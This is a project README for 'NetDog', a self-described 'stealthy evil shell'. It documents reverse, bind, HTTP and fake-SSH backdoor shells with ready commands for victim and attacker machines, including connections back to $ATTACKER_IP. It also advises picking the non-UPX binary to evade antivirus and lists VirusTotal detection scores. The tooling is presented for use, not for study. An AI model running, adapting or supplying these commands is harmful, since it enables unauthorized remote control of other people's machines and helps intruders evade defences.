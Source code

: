 # NetDog
Mini Stealthy Evil Shell

## Roadmap
- Reverse Shell
    - [x] TCP
        - [ ] TLS
    - [x] UDP
        - [ ] DTLS
- Bind Shell
    - [x] TCP (use SSH backdoor if encrypted communication is needed)
    - [x] UDP
        - [ ] DTLS
- HTTP shell
    - Web Shell (will be available at [gohfs](https://github.com/finzzz/gohfs))
    - [x] Asynchronous
        - [ ] TLS
- Others
    - [x] Auto reconnect
    - [x] Fake SSH
        - [ ] Multiple connection
        - [ ] Interactive shell
    - [ ] Pack rustscan to the binary

## Choosing binary
- There are only 2 types: `nd` (linux/amd64) `nd.exe` (windows/amd64)  
- For windows, choose the one without upx to avoid being detected as virus.  

## Reverse shell
```bash
# attacker
nc -lvnp 1234

# victim
./nd $ATTACKER_IP 1234 -recon 5s # reconnect every 5 seconds
```

## Bind shell
```bash
# victim
./nd -m listen

# attacker
nc $VICTIM_IP $VICTIM_PORT
```

## Asynchronous HTTP shell
```
+-------------------------+                 +------------------------+
|victim                   |                 |attacker                |
|http client              |                 |http server             |
|                         |                 |                        |
|                         |   find command  |                        |
|                         +----------------->                        |
|            execute <----+                 |                        |
|                         +----------------->                        |
|                         |    response     |                        |
|                         |                 |                        |
|                         |                 |                        |
+-------------------------+                 +------------------------+
```
```bash
./nd -m http -server # server
./nd -m http -host $ATTACKER_IP -port $ATTACKER_PORT # client
```

## Fake SSH
```bash
# on victim machine
echo -n "netdog" | sha256sum # generate password hash
./nd -m ssh -hash d7b8c7f4fe8b3a9c2ed92189aed08530c5cb02c6e330a1fb3005cb4c0ca04151 # start the server

# on attacker machine
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no whatever@$VICTIM_IP -p $VICTIM_PORT
```

## AV status
2021-05-23 03:13:04 UTC

| type | size | score | windows defender |
| - | - | -| - |
|without upx | 2.2 MB|[4/69](https://www.virustotal.com/gui/file/b042c2498ab6ee36ce998842d4ed4592d46f55026677f1f6e750edf7b6a2411d/detection)| pass|
|with upx | 663 KB|[6/69](https://www.virustotal.com/gui/file/b6f9b09b20cda55d3e87d4f3c74971bffa65781c297ea4742c5987cc69b9b391/detection)| not pass|